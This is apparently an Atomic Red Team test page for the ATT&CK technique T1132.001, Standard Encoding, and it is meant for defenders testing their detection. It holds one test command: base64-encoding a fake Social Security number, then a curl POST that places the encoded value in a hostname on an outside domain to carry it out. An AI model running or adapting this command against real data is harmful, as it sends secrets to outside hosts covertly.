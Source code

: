 # T1132.001 - Standard Encoding
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1132/001)
<blockquote>Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>

